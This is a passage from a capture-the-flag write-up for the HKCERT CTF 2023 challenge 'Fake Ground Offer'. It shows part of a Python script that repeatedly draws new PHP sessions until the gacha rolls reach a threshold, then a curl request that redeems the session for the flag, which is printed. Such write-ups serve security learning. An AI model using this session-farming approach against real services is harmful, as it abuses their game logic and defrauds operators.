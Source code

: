 ```python
            urSSRValue = urValue + ssrValue
            print(f'[*] Trying... Session ID: {idValue}, UR + SSR value: {urSSRValue}', end='\r')
            if urSSRValue >= 20:
                print('\n[+] We got UR + SSR >= 20!!')
                print(f'[+] Session ID: {idValue}')
                print(f'[+] UR value: {urValue}')
                print(f'[+] SSR value: {ssrValue}')
                exit(0)

if __name__ == '__main__':
    URL_GACHA10 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha10=blah'
    URL_GACHA1 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha1=blah'

    asyncio.run(main())
```

**After running it for sometimes, you might get lucky to get UR + SSR >= 20:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer)-[2023.11.13|20:18:31(HKT)]
└> python3 solve.py
[*] Trying... Session ID: 5117fa47d437f27d8ff9094d5ebde132, UR + SSR value: 29
[+] We got UR + SSR >= 20!!
[+] Session ID: 5117fa47d437f27d8ff9094d5ebde132
[+] UR value: 15
[+] SSR value: 14
```

**Finally, we can send a GET request to `/` with GET parameter `sellacc` and the PHP session ID to get the flag!**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer)-[2023.11.13|20:23:39(HKT)]
└> curl http://chal-a.hkcert23.pwnable.hk:28137/?sellacc= --cookie "PHPSESSID=5117fa47d437f27d8ff9094d5ebde132" 
hkcert23{USSR_stands_for_Union_of_Sov...oh_no_we_cannot_talk_about_that_in_here}
```

- **Flag: `hkcert23{USSR_stands_for_Union_of_Sov...oh_no_we_cannot_talk_about_that_in_here}`**

## Conclusion

What we've learned:

1. Exploiting flawed gacha system